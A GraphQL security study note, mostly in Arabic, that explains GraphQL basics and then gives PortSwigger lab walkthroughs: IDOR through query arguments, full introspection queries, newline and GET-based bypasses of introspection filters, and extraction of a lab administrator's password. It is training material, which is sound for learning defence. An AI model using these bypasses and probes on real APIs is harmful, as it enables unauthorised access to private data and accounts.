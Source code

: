 # GraphQL 

<details>
  <summary>what is GraphQL?</summary>


- <details>
      <summary>what is GraphQL & How it work?</summary>

  ## 🧠 ما هو GraphQL؟
  
  **GraphQL** هو لغة استعلام API (بديلة عن REST) تسمح للعملاء بطلب البيانات التي يحتاجونها فقط، مما:
  - يقلل من حجم الاستجابات.
  - يمنع تعدد الطلبات للحصول على بيانات من أكثر من مصدر.
  
  ---
  
  ## ⚙️ كيف يعمل GraphQL؟
  
  - يعتمد على **Schema** يحدد أنواع البيانات والعلاقات بينها.
  - يستخدم **نقطة نهاية واحدة فقط** (عادة POST).
  - جميع العمليات (queries/mutations/subscriptions) تُرسل إلى نفس الـ endpoint.
  
  ---
  
  ## 🔧 أنواع العمليات في GraphQL:
  
  | النوع         | الوظيفة                                       |
  |---------------|-----------------------------------------------|
  | **Query**     | لجلب البيانات                                  |
  | **Mutation**  | لإضافة أو تعديل أو حذف البيانات                |
  | **Subscription** | لإنشاء اتصال دائم لتحديث البيانات تلقائيًا  |
  
  ---
  
  ## 🟢 مميزات GraphQL:
  
  - عميل التطبيق يحدد **ما هي البيانات المطلوبة بالضبط**.
  - لا حاجة لمعرفة مكان البيانات أو كيفية تجميعها.
  - متوافق مع مختلف لغات البرمجة وقواعد البيانات.
  - الاستجابة تأتي بشكل **JSON منظم حسب الطلب**.
  
  ---
  
  ## 🔁 الفرق عن REST:
  
  | REST                      | GraphQL                                   |
  |---------------------------|--------------------------------------------|
  | عدة endpoints             | endpoint واحد فقط                         |
  | HTTP methods (GET, POST…) | POST فقط غالبًا                           |
  | استجابة كاملة              | استجابة مخصصة حسب الطلب فقط              |
  
  


  </details>









- <details>
      <summary>What is a GraphQL schema?</summary>
  
  
  
  ## 📘 ما هو GraphQL Schema؟
  
  **GraphQL Schema** هو العقد (Contract) بين الـ **Frontend** والـ **Backend** يوضح:
  - ما هي البيانات المتاحة.
  - ما هي أنواعها.
  - كيف يمكن استدعاؤها.
  
  ✅ يُكتب باستخدام **لغة تعريف بسيطة ومقروءة (SDL)**.
  
  ---
  
  ## 🧱 ما الذي يحتويه الـ Schema؟
  
  - **أنواع البيانات (Types)**: مثل `Product`, `User`, `Order`...
  - **الحقول (Fields)**: تمثل خصائص الكائنات (مثل name، id...).
  - **الأنواع الأساسية**: مثل `String`, `Int`, `Boolean`, `ID`
  - يمكن أن تكون الحقول:
    - **Object Type** (نوع مركب)
    - **Scalar Type** (نوع بسيط)
    - **Enum / Union / Interface / Custom Types**
  
  🔒 `!` يعني أن الحقل **إجباري (Non-nullable)**
  
  ---
  
  ## ✏️ مثال على تعريف Schema بسيط:
  
  ```graphql
  type Product {
    id: ID!
    name: String!
    description: String!
    price: Int
  }
  ```
  
  #### 📌 هذا يعرف نوع اسمه Product يحتوي على:
  
  - ``id``: معرف فريد (إجباري)
  
  - ``name``: اسم المنتج (إجباري)
  
  - ``description``: وصف (إجباري)
  
  - ``price``: السعر (اختياري)
  
  
  ## 🔍 مكونات إضافية في الـ Schema:
  
  يجب أن يحتوي على Query واحدة على الأقل (لجلب البيانات)
  
  عادةً يحتوي أيضًا على Mutations (لإضافة/تعديل/حذف بيانات)
  
  
  ## 💡 ملخص سريع:
  
  | العنصر           | الوصف                                   |
  | ---------------- | --------------------------------------- |
  | Schema           | يحدد شكل البيانات وكيف يتم الوصول إليها |
  | Types            | الكائنات التي يمكن استرجاعها أو تعديلها |
  | Fields           | خصائص كل كائن (الاسم، السعر، إلخ)       |
  | Non-nullable (!) | حقل إجباري لا يمكن أن يكون فارغًا       |
  
  



  </details>








- <details>
     <summary>What are GraphQL queries?</summary>
  
  
  ## 🔍 ما هي GraphQL Queries؟
  
  **GraphQL Queries** تُستخدم لاسترجاع البيانات من قاعدة البيانات أو مصدر البيانات.
  
  ✅ تشبه طلبات **GET** في REST APIs، لكنها:
  - أكثر مرونة
  - تُعيد فقط البيانات التي تطلبها
  
  ---
  
  ## 🧱 مكونات الاستعلام (Query):
  
  | العنصر                 | الوصف                                               |
  |-------------------------|------------------------------------------------------|
  | **نوع العملية (query)** | لتوضيح أن الطلب هو استعلام (اختياري لكن مفضل)       |
  | **اسم الاستعلام**       | لتسهيل التتبع والتصحيح (اختياري لكنه مفضل)          |
  | **الهيكلية المطلوبة**   | تحدد الحقول التي تريد استرجاعها                     |
  | **المعاملات (arguments)** | لتحديد عناصر معينة بناءً على شرط (مثل ID)            |
  
  ---
  
  ## ✏️ مثال على Query:
  
  ```graphql
  query myGetProductQuery {
    getProduct(id: 123) {
      name
      description
    }
  }
  ```
  
  
  ### 📌 هذا الاستعلام يطلب من الخادم:
  
  المنتج الذي معرفه ``123``
  
  ويطلب فقط الاسم والوصف
  
   > 💡 ملاحظة: حتى لو كان نوع Product يحتوي على حقول أكثر، فأنت تتحكم في ما يتم استرجاعه فقط.
  
  
  
  
  ## 📚 ملخص سريع:
  
  
  
  | المفهوم      | القيمة                                          |
  | ------------ | ----------------------------------------------- |
  | الاستعلام    | طلب بيانات من الخادم                            |
  | يشبه في REST | طلب `GET`                                       |
  | المرونة      | تطلب الحقول التي تحتاجها فقط                    |
  | المعاملات    | تُستخدم لتحديد بيانات معينة مثل `id`, `name`... |
  
  


  </details>







- <details>
     <summary>What are GraphQL mutations?</summary>
  
  
  ## 🔧 ما هي GraphQL Mutations؟
  
  **Mutations** تُستخدم لتعديل البيانات، وتشمل:
  - الإضافة (Create)
  - التعديل (Update)
  - الحذف (Delete)
  
  🟩 تقابل في REST:
  - `POST` / `PUT` / `DELETE`
  
  ---
  
  ## 🧱 مكونات الـ Mutation:
  
  | العنصر                   | الوصف                                                         |
  |---------------------------|----------------------------------------------------------------|
  | **نوع العملية (mutation)**| يُحدد أن العملية هي تعديل بيانات                              |
  | **اسم العملية**           | (اختياري لكنه مفيد) لتسهيل التتبع                             |
  | **المدخلات (Inputs)**     | يجب تمرير بيانات (قيم) لإجراء التعديل                         |
  | **الاستجابة**             | تحدد الحقول التي تريد إرجاعها بعد التعديل                     |
  
  ---
  
  ## ✏️ مثال على Mutation:
  
  ```graphql
  mutation {
    createProduct(name: "Flamin' Cocktail Glasses", listed: "yes") {
      id
      name
      listed
    }
  }
  ```
  
  
  ### 📌 هذا يقوم بـ:
  
  - إنشاء منتج جديد
  
  - يطلب من الخادم إرجاع id, name, و listed في الاستجابة
  
  
  
  
  ---
  
  ## 📥 مثال على الاستجابة:
  
  ```json
  {
    "data": {
      "createProduct": {
        "id": 123,
        "name": "Flamin' Cocktail Glasses",
        "listed": "yes"
      }
    }
  }
  ```
  
  
  
  ## 📚 ملخص سريع:
  
  | المفهوم      | القيمة                                       |
  | ------------ | -------------------------------------------- |
  | الغرض        | تعديل البيانات (إضافة، تعديل، حذف)           |
  | يشبه في REST | POST / PUT / DELETE                          |
  | يجب أن يحتوي | مدخلات (inputs)                              |
  | الاستجابة    | تحدد الحقول المراد إرجاعها بعد تنفيذ العملية |
  
  
  
  
  
  

     
  </details>













- <details>
     <summary>Components of queries and mutations</summary>

  
  
  # 📌 Components of GraphQL Queries and Mutations
  
  GraphQL يتكوّن من عناصر أساسية تُستخدم لجلب البيانات (queries) أو تعديلها (mutations).
  
  ---
  
  ## 🔸 Fields (الحقول)
  
  - كل نوع (Type) يحتوي على **Fields** يمكن استدعاؤها.
  - يمكنك تحديد فقط الحقول المطلوبة في الطلب.
  - الاستجابة تعكس ما طلبته بالضبط.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees {
      id
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## Response

  ```json
      #Response
  
      {
          "data": {
              "getEmployees": [
                  {
                      "id": 1,
                      "name" {
                          "firstname": "Carlos",
                          "lastname": "Montoya"
                      }
                  },
                  {
                      "id": 2,
                      "name" {
                          "firstname": "Peter",
                          "lastname": "Wiener"
                      }
                  }
              ]
          }
      }
  ```

  ---
  
  ## 🔸 Arguments (المعاملات)
  
  - تُستخدم لتمرير قيم إلى الاستعلام.
  - تُحدَّد في الـ Schema.
  - تُساعد على جلب بيانات محددة.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees(id: 1) {
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## response
  
  ```json
   #Response to query
  
      {
          "data": {
              "getEmployees": [
              {
                  "name" {
                      "firstname": Carlos,
                      "lastname": Montoya
                      }
                  }
              ]
          }
      }
  ```






  
  📌 **تنبيه:** يمكن أن تكون عرضة لهجمات مثل **IDOR** إذا لم يتم تأمين الوصول جيدًا.
  
  ---
  
  ## 🔸 Variables (المتغيرات)
  
  - تُستخدم لتمرير قيم ديناميكية بدلاً من وضعها مباشرة في الاستعلام.
  - تفصل بين **هيكل الاستعلام** و**قيم البيانات**.
  
  ### ✅ مثال:
  
  ```graphql
 
    #Example query with variable

    query getEmployeeWithVariable($id: ID!) {
        getEmployees(id:$id) {
            name {
                firstname
                lastname
            }
         }
    }

    Variables:
    {
        "id": 1
    }
  ```
  
 
  
  ---
  
  ## 🔸 Aliases (الأسماء البديلة)
  
  - تسمح بطلب نفس النوع أكثر من مرة في نفس الاستعلام.
  - تتجاوز القيود بأن يكون لكل خاصية اسم فريد.
  
  ### ❌ استعلام غير صحيح:
  
  ```graphql
 
    #Invalid query

    query getProductDetails {
        getProduct(id: 1) {
            id
            name
        }
        getProduct(id: 2) {
            id
            name
        }
    }
  ```
  
  ### ✅ استعلام صحيح باستخدام Aliases:
  
  ```graphql
  query getProductDetails {
    product1: getProduct(id: "1") {
      id
      name
    }
    product2: getProduct(id: "2") {
      id
      name
    }
  }
  ```

  ## response

  ```json

    #Response to query

    {
        "data": {
            "product1": {
                "id": 1,
                "name": "Juice Extractor"
             },
            "product2": {
                "id": 2,
                "name": "Fruit Overlays"
            }
        }
    }
  ```
  
  ---
  
  ## 🔸 Fragments (الأجزاء القابلة لإعادة الاستخدام)
  
  - تُستخدم لتعريف مجموعة من الحقول مرة واحدة.
  - تُساعد في تقليل التكرار وإعادة استخدام نفس البنية في عدة أماكن.
  
  ### ✅ مثال:
  
  ```graphql
  fragment productInfo on Product {
    id
    name
    listed
  }
  
 
  ```

  ## query calling fragment
  
  ```graphql
   #Query calling the fragment
  
      query {
          getProduct(id: 1) {
              ...productInfo
              stock
          }
      }
  ```
  
  ## response 
  
  ```json
     #Response including fragment fields
  
      {
          "data": {
              "getProduct": {
                  "id": 1,
                  "name": "Juice Extractor",
                  "listed": "no",
                  "stock": 5
              }
          }
      }
  ```


 
  ---
  
  ## 📚 ملخص سريع:
  
  | المكون       | الوظيفة الرئيسية                                                              |
  |--------------|--------------------------------------------------------------------------------|
  | Fields        | تحديد ما يجب استرجاعه من بيانات                                                |
  | Arguments     | تمرير قيم لتحديد أو تخصيص البيانات المطلوبة                                    |
  | Variables     | فصل القيم عن الاستعلام لسهولة التكرار والتعديل                                 |
  | Aliases       | إرسال نفس الطلب لنوع معين أكثر من مرة باستخدام أسماء بديلة                    |
  | Fragments     | تعريف أجزاء قابلة لإعادة الاستخدام في استعلامات أو Mutations متعددة           |
  
  





  </details>




- <details>
     <summary>Subscriptions & Introspection</summary>


  # 🔄 GraphQL Subscriptions & Introspection
  
  ## 🔸 Subscriptions
  
  **Subscriptions** هي نوع خاص من الاستعلامات (queries)، لكن الفرق الرئيسي هو أنها:
  - تُنشئ **اتصال دائم** بين العميل (Client) والخادم (Server)
  - تُستخدم لتلقي **تحديثات لحظية (Real-time)** من السيرفر دون الحاجة للاستعلام بشكل مستمر
  
  ### ✅ الفائدة الأساسية:
  - مناسبة للتحديثات السريعة والصغيرة مثل:
    - تطبيقات الدردشة (Chat apps)
    - تحرير المحتوى التعاوني (مثل Google Docs)
    - الإشعارات المباشرة
  
  ### ⚙️ طريقة العمل:
  - غالبًا يتم تنفيذها باستخدام **WebSockets**
  - تُحدد شكل البيانات المطلوبة مثل الاستعلامات العادية
  
  ---
  
  ## 🔍 Introspection
  
  **Introspection** هي ميزة مدمجة في GraphQL تسمح لك بـ:
  - الاستعلام عن معلومات حول **الـ Schema** نفسها
  - معرفة أنواع البيانات، الحقول، الاستعلامات المتاحة، الـ mutations، وغيرها
  
  ### ✅ تُستخدم في:
  - أدوات مثل **GraphQL Playground** أو **GraphiQL**
  - توليد التوثيق (Documentation)
  
  ### ⚠️ مخاطر أمنية:
  - يمكن أن تكشف **معلومات حساسة** عن الـ API
  - يمكن أن تساعد المخترق في معرفة كيفية التفاعل مع الـ API
  - 🔒 **يُنصح بإيقافها في بيئات الإنتاج (Production)**
  
  ---
  
  ## 📚 ملخص سريع:
  
  | العنصر         | الوصف                                                                 |
  |----------------|------------------------------------------------------------------------|
  | Subscriptions  | اتصال دائم من السيرفر للعميل لتحديث البيانات لحظيًا                     |
  | Introspection  | استعلام عن هيكل الـ GraphQL نفسه (Schema)                              |
  | تستخدم في      | الدردشة، التحديثات اللحظية، توثيق GraphQL                               |
  | المخاطر        | Introspection قد تكشف تفاصيل داخلية حساسة - يجب تعطيلها في الإنتاج     |
  """
  

  </details>





  
</details>





<details>
  <summary>Finding GraphQL endpoints</summary>



# 🔍 Discovering & Testing GraphQL Endpoints

قبل اختبار أي GraphQL API، لازم تلاقي أولًا **الـ endpoint** الخاص بيها. كل طلبات GraphQL تروح لنفس الـ endpoint، فمعرفته مهمة جدًا.

---

## 🧪 Universal Query

### ما هو؟
استعلام بسيط لاختبار إذا كان عنوان URL يحتوي على GraphQL endpoint.

### ✅ مثال:
```graphql
query { __typename }
```

### 📥 الاستجابة المتوقعة:
```json
{
  "data": {
    "__typename": "query"
  }
}
```

🔎 هذا يساعدك تتأكد إنك بتتعامل مع GraphQL.

---

## 📍 Common GraphQL Endpoints

جرب ترسل universal query لهذه المسارات:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
- (أحيانًا) أضف `/v1` في النهاية مثل: `/api/graphql/v1`

---

## 📬 طرق إرسال الطلبات (Request Methods)

| الطريقة       | الحالة                                      |
|---------------|----------------------------------------------|
| `POST` + `application/json` | ✅ الأفضل والأكثر أمانًا                  |
| `GET` أو `POST` + `x-www-form-urlencoded` | 🚫 ممكن تكون متاحة في بعض التطبيقات |

🔒 من الأفضل أن تقبل فقط POST + JSON لتفادي **CSRF**.

---

## 🧭 كيفية التأكد من الـ Endpoint

- جرب كل المسارات المعروفة باستخدام universal query.
- لو رجع استجابة بـ "query not present" أو شبيه، ده غالبًا GraphQL.
- غير طرق الطلب وشوف الاستجابة.

---

## 🧰 أدوات مساعدة

- **Burp Scanner**: بيقدر يكتشف GraphQL endpoints تلقائيًا.
  - يظهر إشعار "GraphQL endpoint found" لو تم اكتشافه.

- **Burp Proxy**:
  - استخدم المتصفح المدمج في Burp.
  - راقب HTTP History وشوف الطلبات اللي بيتم إرسالها.
  - كده تقدر تشوف استعلامات GraphQL الحقيقية في التطبيق.

---

## 📚 ملخص سريع:

| العنصر               | التوضيح                                                        |
|------------------------|----------------------------------------------------------------|
| Universal Query        | استعلام بسيط للتأكد من وجود GraphQL                          |
| Common Endpoints       | مسارات متكررة غالبًا تستخدمها الخدمات                        |
| طرق HTTP               | جرب POST + JSON أولًا، ثم طرق أخرى لو فشلت                    |
| أدوات الكشف           | Burp Suite مفيد جدًا في تحليل واستكشاف واجهات GraphQL         |


  
</details>










<details>
  <summary>Exploiting unsanitized arguments</summary>


  
  # ⚠️ Exploiting Unsanitized Arguments in GraphQL
  
  في مرحلة اختبار الأمان، من الجيد البدء باختبار **المعاملات (arguments)** داخل الاستعلامات. بعض التطبيقات تكون معرضة لثغرات **الوصول غير المصرح به** أو ما يُعرف بـ **IDOR**.
  
  ---
  
  ## ❗ ما هي ثغرة IDOR في GraphQL؟
  
  - تحدث عندما يُسمح للمستخدم بطلب كائن باستخدام معرف (ID) دون التأكد من صلاحياته.
  - المستخدم قد يصل إلى بيانات لا يملك إذنًا لرؤيتها فقط عن طريق تغيير قيمة الـ ID.
  
  ---
  
  ## 🎯 مثال عملي:
  
  ### 🔹 استعلام يعرض المنتجات المتاحة فقط:
  
  ```graphql
  query {
    products {
      id
      name
      listed
    }
  }
  ```
  
  ### 🔹 استجابة توضح المنتجات المتاحة فقط:
  
  ```json
  {
    "data": {
      "products": [
        { "id": 1, "name": "Product 1", "listed": true },
        { "id": 2, "name": "Product 2", "listed": true },
        { "id": 4, "name": "Product 4", "listed": true }
      ]
    }
  }
  ```
  
  📌 الملاحظة:
  - المنتج ذو ID رقم 3 غير ظاهر. من المحتمل أنه **غير مُدرج** أو محجوب.
  
  ---
  
  ## 🕵️‍♂️ محاولة الوصول للمنتج الغير ظاهر:
  
  ```graphql
  query {
    product(id: 3) {
      id
      name
      listed
    }
  }
  ```
  
  ### 🧨 استجابة غير متوقعة:
  
  ```json
  {
    "data": {
      "product": {
        "id": 3,
        "name": "Product 3",
        "listed": false
      }
    }
  }
  ```
  
  ✅ يعني أنه لا يوجد تحقق من صلاحيات المستخدم، وقدرنا نوصل لمنتج **غير ظاهر للعامة**.
  
  ---
  
  ## 🚨 الملخص:
  
  | العنصر              | التوضيح                                                  |
  |---------------------|-----------------------------------------------------------|
  | نوع الهجوم         | Insecure Direct Object Reference (IDOR)                   |
  | السبب              | عدم وجود تحقق من صلاحيات المستخدم عند استخدام المعاملات   |
  | النتيجة المحتملة   | الوصول إلى بيانات حساسة أو غير معلنة                      |
  | الطريقة            | تغيير قيمة الـ ID أو معلمة في الاستعلام يدويًا            |
  
  ---
  
  ## 🔐 التوصية للمطورين:
  
  - تأكد دائمًا من صلاحيات المستخدم قبل جلب الكائنات الحساسة.
  - لا تعتمد فقط على أن الاستعلام لا يُرجع البيانات في بعض الحالات.
  - راجع التحكم بالوصول (Access Control) بدقة.
  
  
  
    
</details>






<details>
  <summary>Discovering schema information</summary>




# 🧠 Discovering Schema Information in GraphQL

الخطوة التالية بعد الوصول لنقطة النهاية (endpoint) في GraphQL هي **اكتشاف معلومات المخطط (schema)** لفهم كيفية التفاعل مع الـ API.

---

## 🔍 ما هي Introspection؟

- Introspection هي ميزة مدمجة في GraphQL تتيح لك الاستعلام عن معلومات حول المخطط (schema).
- تُستخدم لفهم أنواع البيانات المتاحة، والاستعلامات (queries)، والتحويلات (mutations)، والاشتراكات (subscriptions)، وحتى الأوصاف الخاصة بها.

---

## ✨ فائدة Introspection

| الفائدة                         | التوضيح |
|--------------------------------|---------|
| فهم البنية الكاملة للـ API     | تعرف ما هي الأنواع والاستعلامات والحقول المتوفرة |
| كشف معلومات حساسة محتملة      | مثل الأوصاف أو الأسماء الداخلية التي لم تُنشر للعامة |
| تستخدمها أدوات التوثيق IDEs   | مثل GraphQL Playground و Postman و Burp Scanner |

---

## 🚀 استخدام introspection

### ✅ استعلام بسيط للتأكد من تفعيل introspection:

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

📌 إذا استرجعت أسماء الاستعلامات، فإن introspection مفعلة.

---

## 📜 استعلام Introspection كامل

إذا أردت استخراج كل تفاصيل المخطط:

```graphql

    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

🔧 ملاحظة: احذف `onOperation`, `onFragment`, `onField` إن ظهرت لك أخطاء.

---

## 📊 أدوات لتسهيل الفهم

- **GraphQL Visualizer**: يعرض علاقات المخطط بطريقة رسومية.
- **Burp Suite**: يمكنه توليد استعلام introspection واكتشاف التوجيهات والمخطط.
- **Clairvoyance**: أداة تقوم بجمع معلومات المخطط من **الاقتراحات** حتى لو كان introspection معطل.

---

## 💬 ماذا عن الاقتراحات؟

- تستخدم بعض الخوادم مثل Apollo GraphQL ميزة **الاقتراحات الذكية**.
- عند وجود خطأ بسيط في اسم الحقل، يقترح الاسم الصحيح.
- يمكن استغلال هذه الميزة لاستخراج المخطط جزئياً.

🔍 مثال:
> There is no entry for 'productInfo'. Did you mean 'productInformation'?

🛡️ لا يمكن تعطيل الاقتراحات مباشرةً في Apollo، ولكن هناك بعض الحيل في GitHub لتعطيلها.

---

## 📌 ملاحظات أمنية

| الجانب الأمني       | التوصية |
|---------------------|---------|
| introspection       | يجب تعطيله في بيئة الإنتاج |
| الاقتراحات          | تجنب تمكينها أو قم بفحص الردود بدقة |
| Burp Scanner        | يمكنه اختبار introspection والاقتراحات تلقائيًا |





  
</details>







<details>
  <summary>Bypassing GraphQL introspection defenses</summary>


# 🔍 Bypassing GraphQL Introspection Defenses

When developers try to secure GraphQL APIs by disabling **introspection**, they often rely on naive regex filters that block any query containing `__schema`. However, these filters can be bypassed in clever ways.




---

## 🔐 What Developers Do (Wrongly)

To prevent this, developers often filter out requests containing `__schema` or `__introspection`, using regular expressions.

Example:
```regex
/__schema{/
```

This blocks simple introspection queries... **but only the exact format.**

---

## 💥 Bypass Techniques

### 1. Inject Special Characters

GraphQL **ignores whitespaces, new lines, and commas**.

But naive regex filters don’t. So, by inserting harmless characters, you bypass the filter.

#### Example: Using a Newline Character

```json
{
  "query": "query{__schema
{queryType{name}}}"
}
```

#### Why this works:

- The developer's regex blocks `__schema{`
- But `__schema
{` doesn’t match their pattern
- Yet GraphQL still parses it correctly ✅

---

### 2. Try Alternative Request Methods

Developers may only disable introspection on POST requests.

Try:

#### ▶ GET Request with URL-Encoded Introspection Query

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Decoded:
```graphql
query {
  __schema
  {
    queryType {
      name
    }
  }
}
```

#### ▶ POST Request with Form URL-Encoded Body

```http
POST /graphql
Content-Type: application/x-www-form-urlencoded

query=query{__schema{queryType{name}}}
```

---

## 🧠 Extra Tips

- Save results to your Burp Suite **Site Map** for later analysis
- Combine this with tools like **GraphQL Voyager**, **InQL**, or **GraphQLmap** to visualize the schema
- Once schema is found, try:
  - Sensitive queries (email, password, tokens)
  - Mutations that may allow actions like reset, delete, or admin escalation

---

## 🛠 Want to Automate This?

You can easily script these bypass attempts using **Python + requests** to iterate over multiple bypass formats and content-types.

Let me know if you want the script.

---

## ✅ Goal

Get access to the full GraphQL schema **even if introspection is "disabled".**
This enables a full map of the API surface for further exploitation.

---

Stay sneaky 😎

  
</details>


























































































































----
----


# **``GraphQL Labs``**



<details>
  <summary>Lab: Accessing private GraphQL posts</summary>

> ### The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password. 


---

1. active **``burp live passive Crawl``**

<img width="400" height="168" alt="image" src="https://github.com/user-attachments/assets/1aabdb2e-2be3-419d-8f5e-5cbbf23f341b" />

**``Found``**


```http
POST /graphql/v1 HTTP/2
Host: 0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Cookie: session=6rY0h8IeXuTOu3Viib6k5KsJYOZNxku1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net/post?postId=2
Content-Type: application/json
Content-Length: 249
Origin: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers



{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":2}}
```


find introspection

simple one to check

<img width="1524" height="476" alt="image" src="https://github.com/user-attachments/assets/403cf877-4073-4ec6-becb-c926c3b227a0" />


> Don't forget to convert form ``graphql`` to ``json`` 

[From_graphql_2_json](https://datafetcher.com/graphql-json-body-converter)

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

<img width="1570" height="723" alt="image" src="https://github.com/user-attachments/assets/3104cd2c-b626-4eae-9ff3-f741a7135f57" />


> ### put output to visulizer

[graphql_visulaize3r](http://nathanrandal.com/graphql-visualizer/)


<img width="848" height="657" alt="image" src="https://github.com/user-attachments/assets/40ebcb57-fe05-4ba5-906c-31ec3f82fb39" />


Try to read content of ``postPassword`` of all posts

```graphql
query {
  getAllBlogPosts {
    id
    title
    postPassword
  }
}
```

but if you notice that there ar id form ``1`` to ``5`` exept **``3``** this might be it's ``isPrivate: Boolean!`` is true

<img width="1527" height="622" alt="image" src="https://github.com/user-attachments/assets/6546c0c4-2f1a-4cac-990c-05e145d21c22" />

so if i use the first query and try to see password 

```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n     postPassword\n   }\n    }","operationName":"getBlogPost","variables":{"id":3

}}
```

<img width="1544" height="651" alt="image" src="https://github.com/user-attachments/assets/e689a70d-8315-4412-9c87-b8d5aa85efd6" />


found the password

```

```

  
</details>









<details>
  <summary>Lab: Accidental exposure of private GraphQL fields</summary>


### > The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

> To solve the lab, sign in as the administrator and delete the username ``carlos``. 

---

find this request 

<img width="1211" height="602" alt="image" src="https://github.com/user-attachments/assets/ce5ced22-73f4-416f-835a-effedd00e716" />

``Introspection Query``

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

``Introspection Result``

<img width="1540" height="640" alt="image" src="https://github.com/user-attachments/assets/07d67e10-15c5-4b3a-95a9-5a60b4b257f7" />

<img width="843" height="720" alt="image" src="https://github.com/user-attachments/assets/acca9c26-a639-4f12-8c97-1b4b5edcd8de" />

now try to use ``getUser(id:Int!): User`` to find **``administrator``** user


```graphql
{
  getUser(id: 1) {
    id
    username
    password
  }
}

```

<img width="1316" height="367" alt="image" src="https://github.com/user-attachments/assets/e932fd39-cead-4b3d-9c44-3ae3474b1329" />


```
administrator : lnqajgkwlru628r4sgjc
```

<img width="1330" height="486" alt="image" src="https://github.com/user-attachments/assets/4ed941d2-305e-4e47-8b02-58d16d623fb2" />

<img width="1290" height="268" alt="image" src="https://github.com/user-attachments/assets/89d700e2-75c7-4ab1-8c53-441c2c82b3fe" />


  
</details>





<details>
  <summary>Lab: Finding a hidden GraphQL endpoint</summary>


###>  The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

> To solve the lab, find the hidden endpoint and delete ``carlos``. 

----


first test common ``graphql`` endpoints

<img width="557" height="460" alt="image" src="https://github.com/user-attachments/assets/3172e313-20bc-4226-9b04-920f1893b50a" />

all responses ``404`` except one ``405`` but say ``method not allowed``

<img width="954" height="241" alt="image" src="https://github.com/user-attachments/assets/3faecc2c-88fb-4074-926b-c76228eed772" />

it seem that it allow **``GET``** method

<img width="919" height="572" alt="image" src="https://github.com/user-attachments/assets/8a3a78bc-2a86-437e-a9c5-af9d7c275a0f" />

now **``qurey not present``**

<img width="1534" height="447" alt="image" src="https://github.com/user-attachments/assets/d77a13d6-bb67-4ee9-8539-4d1d96de0408" />

first put this header in request 

```http
Content-Type: application/json;
```

and try to add simple qurey to see what will be the result

```json
{
  "query": "query{__typename}"
}
```

and booom 

<img width="1534" height="441" alt="image" src="https://github.com/user-attachments/assets/ee8a6f2c-bc06-4909-99aa-cf48313978ef" />

now try to write introspction simple query :

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

response say ``introspection not allowed`` it seems there is filteration on it 

<img width="1542" height="449" alt="image" src="https://github.com/user-attachments/assets/9c22e8d9-09b0-4ac3-9ce2-6471385de770" />

try to pypass it by using **``\n``**:

```json
{
  "query": "{__schema\n{queryType{name}}}"
}

                      |
```
and it work 🔥

